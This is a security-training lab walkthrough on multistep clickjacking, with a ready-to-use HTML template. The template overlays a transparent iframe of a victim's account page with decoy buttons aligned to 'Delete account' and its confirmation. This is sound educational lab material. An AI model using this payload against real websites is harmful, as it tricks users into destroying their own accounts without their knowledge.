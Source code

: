 ## Lab: Multistep clickjacking                     (function (window, document, dataLayerName, id) { window\[dataLayerName\] = window\[dataLayerName\] || \[\], window\[dataLayerName\].push({ start: (new Date).getTime(), event: "stg.start" }); var scripts = document.getElementsByTagName('script')\[0\], tags = document.createElement('script'); var qP = \[\]; dataLayerName !== "dataLayer" && qP.push("data\_layer\_name=" + dataLayerName), tags.nonce = "B7aqzy5KZMH7hcuNGcmSALNzxwcc3rLd"; var qPString = qP.length > 0 ? ("?" + qP.join("&")) : ""; tags.async = !0, tags.src = "https://ps.containers.piwik.pro/" + id + ".js" + qPString, scripts.parentNode.insertBefore(tags, scripts); !function (a, n, i) { a\[n\] = a\[n\] || {}; for (var c = 0; c < i.length; c++) !function (i) { a\[n\]\[i\] = a\[n\]\[i\] || {}, a\[n\]\[i\].api = a\[n\]\[i\].api || function () { var a = \[\].slice.call(arguments, 0); "string" == typeof a\[0\] && window\[dataLayerName\].push({ event: n + "." + i + ":" + a\[0\], parameters: \[\].slice.call(arguments, 1) }) } }(i\[c\]) }(window, "ppms", \["tm", "cm"\]); })(window, document, 'dataLayer', '287552c2-4917-42e0-8982-ba994a2a73d7');
### Solution

1.  Log in to your account on the target website and go to the user account page.
2.  Go to the exploit server and paste the following HTML template into the "Body" section:
    
    ```html
    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }   
        .firstClick, .secondClick {
            position:absolute;
            top:$top_value1;
            left:$side_value1;
            z-index: 1;
        }
        .secondClick { 
            top:$top_value2;
            left:$side_value2;
        }
        </style>
        <div class="firstClick">Test me first</div>
        <div class="secondClick">Test me next</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
    ```
3.  Make the following adjustments to the template:
    *   Replace `YOUR-LAB-ID` with your unique lab ID so that URL points to the target website's user account page.
    *   Substitute suitable pixel values for the `$width_value` and `$height_value` variables of the iframe (we suggest 500px and 700px respectively).
    *   Substitute suitable pixel values for the `$top_value1` and `$side_value1` variables of the decoy web content so that the "Delete account" button and the "Test me first" decoy action align (we suggest 330px and 50px respectively).
    *   Substitute a suitable value for the `$top_value2` and `$side_value2` variables so that the "Test me next" decoy action aligns with the "Yes" button on the confirmation page (we suggest 285px and 225px respectively).
    *   Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
